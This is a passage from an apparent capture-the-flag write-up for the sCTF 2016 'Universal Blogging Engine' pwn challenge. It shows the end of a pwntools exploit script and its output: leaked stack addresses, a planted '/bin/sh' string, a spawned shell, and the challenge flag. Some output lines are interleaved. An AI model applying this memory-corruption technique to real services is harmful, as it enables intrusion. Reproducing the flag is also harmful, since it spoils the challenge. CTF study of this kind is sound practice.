 ```python
# now we return from menu to main and libc_start to quit returning into our buffer
r.send("5\n")

r.interactive()
```

Here's the output of the exploit:

```
# ./sploit.py
[+] Opening connection to problems2.2016q1.sctf.io on port 1339: Done
+-------------------------------------------+
| Welcome to the Universal Blogging Engine, |
| your one-stop-shop for all blogging needs.|
+-------------------------------------------+
+--------------------+
|       Options      |
| [1] Write a post   |
| [2] Edit a post    |
| [3] List all posts |
| [4] Print a post   |
| [5] Quit           |
+--------------------+

Your name:
Title:
Contents:
Thread successfully added!
.
.
.
ID      : 12
Poster  : AAAA
Title   : BBBB
Contents: CCCCDDDDE/bin/sh
Next    : 0xbf9b4129

ID      : 13
Poster  : AAAA
Title   : BBBB
Contents: CCCCDDDDE/bin/sh
Next    : 0xbf9b41a2

ID      : 14
Poster  : AAAA
Title   : BBBB
Content
stack address: 0xbf9b3b7d
return to main at: 0xbf9bcc8c
our buffer will go at: 0xbf9bcc34
/bin/sh string: 0xbf9b3b72
s: CCCCDDDDE/bin/sh
Next    : 0xbf9b421b
.
.
.
[*] Switching to interactive mode
$ id
uid=1002(pwn3) gid=1002(pwn3) groups=1002(pwn3)
$ ls
flag.txt
pwn3
$ cat flag.txt
sctf{h34p_0n_th3_st4ck_EZPZ}
```
